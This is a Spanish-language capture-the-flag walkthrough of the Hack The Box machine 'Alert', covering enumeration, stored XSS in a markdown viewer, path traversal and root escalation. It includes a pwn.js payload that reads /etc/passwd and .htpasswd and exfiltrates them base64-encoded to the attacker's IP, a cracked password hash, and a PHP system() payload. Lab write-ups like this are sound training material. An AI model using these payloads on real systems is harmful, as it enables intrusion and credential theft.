

# Alert


## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.44 -oG allports
```

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo de los siguiente puertos encontrados:


```shell
nmap -sCV -p22,80 10.10.11.44 -oN targeted
```
```shell
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7e:46:2c:46:6e:e6:d1:eb:2d:9d:34:25:e6:36:14:a7 (RSA)
|   256 45:7b:20:95:ec:17:c5:b4:d8:86:50:81:e0:8c:e8:b8 (ECDSA)
|_  256 cb:92:ad:6b:fc:c8:8e:5e:9f:8c:a2:69:1b:6d:d0:f7 (ED25519)
80/tcp    open     http    Apache httpd 2.4.41 ((Ubuntu))
| http-title: Alert - Markdown Viewer
|_Requested resource was index.php?page=alert
|_http-server-header: Apache/2.4.41 (Ubuntu)
12227/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Sin embargo no encontramos nada interesante solamente tenemos que agregar el dominio `alert.htb` al fichero `/etc/host`

## Enumeración de directorios:
Como otras veces he realizado, usando `gobuster` intento enumerar directorios y ficheros interesantes para ello lo hago de la siguiente manera:

```shell
gobuster dir -u http://alert.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php
```

Obtengo el siguiente resultado:

```shell
/index.php            (Status: 302) [Size: 660] [--> index.php?page=alert]
/contact.php          (Status: 200) [Size: 24]
/uploads              (Status: 301) [Size: 308] [--> http://alert.htb/uploads/]
/css                  (Status: 301) [Size: 304] [--> http://alert.htb/css/]
/messages             (Status: 301) [Size: 309] [--> http://alert.htb/messages/]
/messages.php         (Status: 200) [Size: 1]
/server-status        (Status: 403) [Size: 274]
/visualizer.php       (Status: 200) [Size: 633]
```

## Enumeración de sudominios
Para enumerar los subdominios  podemos usar `gobuster`
```shell
gobuster vhost -u http://alert.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r
```
Entramos el siguiente subdomnio, sin embargo no podemos acceder. 
```shell
statistics.alert.htb Status: 401 [Size: 467]
```

## Examinamos la pag aler.htb

Nos encontramos con una página que al parecer procesa ficheros en `markdown` por lo tanto voy a crear varios para ver como se visualiza.



buscando si existen vulnerabilidades encontramos que se puede intentar acontecer un ataque XSS para obtener datos relevantes y enviarlo con el enlace al "administrador" por el apartado que tienen para contactar con ellos.
 
Creo un fichero de prueba con el siguiente contenido y comprobar si se realiza el ataque `XSS`

```js
<script>alert (0)</script>
```
Una vez que vemos funciona vemos que podemos generar un enlace  e intentar enviarselo a
alguien para que pinche y robar datos interesantes.

Por lo tanto ahora le vamos a mandar esto
```js
<script src="http://miIP/pwn.js"></script>
```
Mientras me pongo en escucha con el siguiente comando para comprobar si alguien clica

```shell
python3 -m http.server 80
```

y efectivamente si intenta a acceder a ese recurso por la siguiente solicitud que recibo.

```shell
10.10.11.44 - - [23/Oct/2025 07:49:55] code 404, message File not found
10.10.11.44 - - [23/Oct/2025 07:49:55] "GET /pwn.js HTTP/1.1" 404 -
```

Por lo tanto voy a genera un  fichero `pwn.js` para exfiltrar los datos si se pulsa en el enlace. 
La información se envia por la peticion en base64 para que se pueda realizar de manera más comoda la convesion posteriormente.

```js
var req = new XMLHttpRequest();

//Petición anterior que tenemos éxito y nos lo devuelve
req.open('GET','http://alert.htb/messages.php?file=../../../../../../etc/passwd',false);

//Petición anterior 
req.open('GET','http://alert.htb/messages.php?file=../../../../../../etc/apache2/sites-available/000-default.com',false);

req.open('GET','http://alert.htb/messages.php?file=../../../../../../var/www/statistics.alert.htb/.htpasswd',false);
req.send();

var exfil = new XMLHttpRequest();
exfil.open('GET','http://10.10.14.10/?b64' + btoa(req.responseText),false);
exfil.send();

```

Apuntando a lo diferente archivos obtenemos los siguientes datos interesantes:

- Obtenemos dos usuarios uno es `albert`y otro es `david` en el archivo `/etc/passwd`
```shell
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
```
- En el fichero de configuración de apache aparece el subdominio que anteriormente habia encontrado además de la disponibilidad de listar el contenido del fichero `.htpasswd` 

```html
<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

</pre>
```

- Por último cuando listamos el contenido del fichero `.htpasswd` obtenemos el siguiente usuario y contraseña.

```html
<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>
```

## Crackeo de la contraseña 

Usando hashcat puedo intentar romper el cifrado de la contraseña para ello realizo el siguiente comando:

```shell
hashcat hash /usr/share/wordlists/rockyou.txt --user 
```

Afortunadamente, encunetra la contraseña:

```
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited 
```

## Intrusión en el sistema
A partir de este ususario y contraseña podemos intentar acceder en `stadistic.alert.htb` sin embargo cunado accedemos a la página no encontramos nada interesante.

Probamos esas mismas credenciales para conectarnos al servicio `ssh` una vez que estamos dentro podemos visualizar la primera flag. 

```shell
ssh albert@10.10.11.44 
```

## Escalada de privilegios

Lo primero es enumerar en los grupos que se encuentra este usuario y hay un grupo que llama la atención es management

```shell
id 
uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```
Si buscamos aquellos fichero que tenga asignado este grupo nos encontramos con los siguientes:

```shell
find / -group management 2>/dev/null
```
Encontramos dos ficheros interesantes:

```shell
/opt/website-monitor/config
/opt/website-monitor/config/configuration.php
```
Además de intentar ver si encuentro algún puerto abierto de la máquina que sea interesante:
```shell
ss -nltp
```

```shell
State       Recv-Q       Send-Q             Local Address:Port             Peer Address:Port      Process      
LISTEN      0            128                      0.0.0.0:22                    0.0.0.0:*                      
LISTEN      0            4096                   127.0.0.1:8080                  0.0.0.0:*                      
LISTEN      0            4096               127.0.0.53%lo:53                    0.0.0.0:*                      
LISTEN      0            128                         [::]:22                       [::]:*                      
LISTEN      0            511                            *:80                          *:*                      
```

Encuentro un servidor web corriendo en el 8080 por lo tanto con ssh voy a realizar port forwarding a mi maquina de la siguiente manera:

```shell
ssh albert@10.10.11.44 -L 8080:127.0.0.1:8080
```

Finalmente en ese directorio puedo crear un documento `test.php` que sea interpretado y me devuelva la flags de root porque el programa de monitors se esta ejecutando como root.

De esta manera:
```php
<?php system('cat /root/root.txt'); ?>
```

Por lo tanto cuando accedo a la url `http://localhost:8080/monitors/test.php` obtengo la flag


